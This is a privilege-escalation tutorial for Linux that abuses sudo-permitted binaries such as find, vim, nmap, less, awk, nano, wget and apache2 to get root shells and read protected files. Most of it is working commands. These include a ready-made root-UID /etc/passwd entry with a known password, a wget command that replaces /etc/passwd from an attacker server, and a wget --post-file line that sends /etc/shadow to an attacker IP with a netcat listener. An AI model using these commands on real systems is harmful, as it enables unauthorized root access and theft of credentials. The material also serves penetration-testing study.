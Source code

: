 ---- Credits to Touhid M.Shaikh ----


Sudoers File

  

SUDOers


    sudo -l
  
Sudoer File Syntax.

    root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

    user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

    user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.


Exploiting SUDO Users.
To Exploiting sudo user u need to find which command u have to allow.

    sudo -l

The above command shows which command have allowed to the current user.


Here sudo -l, Shows the user has all this binary allowed to do as on root user without password.

Let’s take a look at all binary one by one (which is mention in index only) and Escalate Privilege to root user.

Using Find Command

    sudo find /etc/passwd -exec /bin/sh \;
    or

    sudo find /bin -name nano -exec /bin/sh \;

Using Vim Command
    sudo vim -c '!sh'
Using Nmap Command
Old way.

    sudo nmap --interactive
    nmap> !sh
    sh-4.1#
    Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

    echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse


Using Man Command
    sudo man man
after that press !sh and hit enter

Using Less/More Command

    sudo less /etc/hosts
    sudo more /etc/hosts
    after that press !sh and hit enter

Using awk Command

    sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano  /etc/passwd
now switch user password with password : test

    su user1
    

Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only => 

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

host that passwd file to using any web server.
On Victim Side.

sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
now switch user password is : test

    su user1
Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

sudo wget --post-file=/etc/shadow 192.168.56.1:8080
Setup Listener on attacker : nc –lvp 8080

Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

sudo apache2 -f /etc/shadow
Output is like this :

Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.
